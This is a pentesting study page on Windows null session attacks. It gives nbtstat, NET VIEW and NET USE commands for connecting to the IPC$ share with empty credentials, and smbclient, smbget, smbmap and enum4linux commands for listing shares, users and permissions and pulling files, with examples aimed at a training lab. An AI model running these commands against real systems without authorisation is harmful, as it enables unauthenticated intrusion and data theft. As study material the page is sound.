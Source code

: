 ```yaml
---
title: Windows Null session attack
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting windows 
---
```


# Windows Null session attack

It’s used to enumerate info (password, system users, system groups. running system processes). A null session attack exploits an authentification vulnerability for Windows Administrative Shares. This lets an attacker connect to a local or remote share without authentification.

## Manually from Windows

1.  **Enumerate File Server services**:    

```cmd
nbtstat -A <target IP>   

# ELS-WINXP   <00>   UNIQUE   Registered
# <00> tells us ELS-WINXP is a workstation.
# <20> says that the file sharing service is up and running on the machine
# UNIQUE tells us that this compiter must have only one IP address assigned
```

2.  **Enumerate Windows Shares**. Once we spot a machine with the File Server service running, we can enumerate:

```
NET VIEW <target IP>
```

3.  Verify if a null attack is possible by exploiting the IPC$ administrative share and trying to connect without valid credentials.

```
NET USE \\<target IP address>\IPC$ ‘’ /u:’’
```

This tells Windows to connect to the IPC$ share by using an empty password and a empty username. It only works with IPC$ (not c$).

## Manually from Linux

Using the samba suite: https://www.samba.org/

1.  **Enumerate File Server services**: 

```bash
nmblookup -A <target IP>
```

2.  Also with the smbclient we can **enumerate the shares** provides by a host:  

```bash
smbclient -L //<target IP> -N

# -L  Look at what services are available on a target
# <targetIP> Prepend the two slahes
# -N  Force the tool not to ask for a password
```

3.  Connect:

```bash
smbclient \\<tt IP>\sharedfolder -N
```

Be careful, sometimes the shell removes the slashes and you need to escape them.

4.  Once connected you can browse with the smb command line. To see allowed commands: help 
5.  When you know the path of a file and you want to retrieve it:
	- from kali: 
	```bash
	smbget smb://<target IP>/SharedFolder/flag_1.txt
	```
	- from  smb command line: 
	```smb
	get flag_1.txt
	```

6.  To map users with permissions

```bash
smbmap -H demo.ine.local
```
 
To get an specific file in a connection: get flag.txt

## Tricks

Enumerate users with enum4linux -U demo.ine.local

Enumerate the permissions of users with smbmap -H demo.ine.local

If some users are missing in the permission list, maybe they are accesible, try with:

```
smbclient -L //<target IP>\<user> -N
```

## More tools

- [Winfo](winfo.md).
- [enum](enum.md).
- [enum4linux](enum4linux.md).
- [SAMRDump](samrdump.md).
